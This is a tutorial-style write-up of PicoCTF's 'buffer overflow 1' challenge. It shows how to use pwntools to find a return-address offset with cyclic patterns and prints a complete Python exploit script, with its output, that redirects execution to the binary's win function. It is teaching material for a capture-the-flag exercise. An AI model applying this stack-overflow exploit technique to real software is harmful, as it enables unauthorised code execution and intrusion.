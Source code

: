 Let's build some familiarity with pwntools by using it on an actual challenge.
We'll use pwntools to beat PicoCTF's `buffer overflow 1` challenge. PicoCTF's 
challenges are free to play at https://play.picoctf.org.

When we start the challenge we are given the opportunity to download the 
executable as well as the source code. The source code is helpful, but it's not
going to be available for every challenge.

## Examining the provided source code
The source code shows that the program consists of 3 functions:
  * `main` - the starting point
  * `vuln` - called by `main` and has an obvious buffer overflow vulnerability 
  through it's use of `gets()`
  * `win` - the function which prints the flag if its reached

Analysis of the source code also shows that the program reads the flag from a 
file named `flag.txt` in the current directory. I recommend creating a test 
flag on your local machine using a format that matches the competitions flag 
formatting:

```bash
$ echo "picoCTF{testFlag}" > flag.txt
```

## About cyclic patterns
The next section uses pwntools' cli to generate a cyclic pattern. Cyclic 
patterns are a pattern in which every "n" character sequence is unique.

We can generate a cyclic sequence using `pwn cyclic [nbytes]`, where `nbytes`
is the number of bytes/characters to generate.

If we need to find where a specific sequence of bytes appears in the pattern,
we can call `pwn cyclic -l [pattern]`, where `pattern` is the character or 
byte sequence to search for. The value returned is the offset into the cyclic 
sequence that the characters appear at.

## Running the program
We can run the `vuln` application locally to get a feel for how the program 
operates:

```bash
$ chmod u+x ./vuln
$ ./vuln
Please enter your string: 
Hello
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```

Since we suspect a buffer overflow, lets re-run it with a large input. I'm 
going to use pwntool's cyclic function to generate the (potential) overflow:

```bash
$ pwn cyclic 200 | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault (core dumped)
```

We can see providing such an input crashes the program. In addition to that we 
can see the return address has been changed to "0x6161616c". 0x61 and 0x6c 
corraspond to printable ascii characters, which suggests the overflowing cyclic
pattern might be overwriting the return address.

We can use pwntool's cli to find the offset into the cyclic pattern that the 
return address is being set to:

```bash
$ pwn cyclic -l 0x6161616c
44
```

Pwntools is telling us that the byte sequence "0x6161616c" appears at an offset
of 44. This gives us enough information to start building an exploit.

## Writing the exploit
This challenge, like many other binary exploit challenges host a version of the
binary on a ncat server. This means that the final version of the exploit will
need to talk to the remote server. This is easy to do in pwntools, as you can 
replace your normal `process('vuln')` call with a call to `remote(host,port)`.

The exploit used for this challenge is below, we'll walk through this line-by-line:

```python
from pwn import *

context.arch = 'i386'           # executable was found to be a 32-bit application
context.os = 'linux'            # executable is intended to run on linux
elf = ELF('./vuln')             # ELF() gives us access to the symbol table and other useful info
p = elf.process()               # start an instance of the application that we can talk to locally

# the host and port was provided by PicoCTF, uncomment the next 3 lines when
#   ready to run against the competition server
# host = 'saturn.picoctf.net'
# port = 62067
# p = remote(host, port)

# context.log_level = 'debug'   # uncomment this line to get more verbose info on what is happening with our exploit

offset = 44                     # this was the offset found in the previous section

# I like to build my payloads as a list, but you could also contatenate byte strings directly
payload = [
    b'a'*offset,                # We need to add some bytes before our actual payload as padding. These don't do anything except take up space.
    p32(elf.symbols['win'])     # Since symbols haven't been stripped, we can use elf.symbols['win'] to get the address of the win function.
                                # We then wrap that call in p32() to pack it as a 32 bit address
    ]

raw_payload = b''.join(payload) # this flattens the list into a byte string
p.sendline(raw_payload)         # send that byte string to the program
print(p.recvall())              # print out all the data received back from the program
                                # if the exploit worked, then the flag will be in that output
```

The exploit script was saved as "ape.py". We can run our exploit script locally to see if it worked:

```bash
$ python3 ./ape.py
[*] '/home/picoctf/buffer_overflow_1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/home/picoctf/buffer_overflow_1/vuln': pid 7038
[+] Receiving all data: Done (109B)
[*] Process '/home/picoctf/buffer_overflow_1/vuln' stopped with exit code -11 (SIGSEGV) (pid 7038)
b'Please enter your string: \nOkay, time to return... Fingers Crossed... Jumping to 0x80491f6\npicoCTF{testFlag}\n'
```

Success! We see our test flag in the output (`picoCTF{testFlag}`)!

Now we can uncomment the host, port, and remote lines in the script, return 
it, and get the actual flag from the competition server.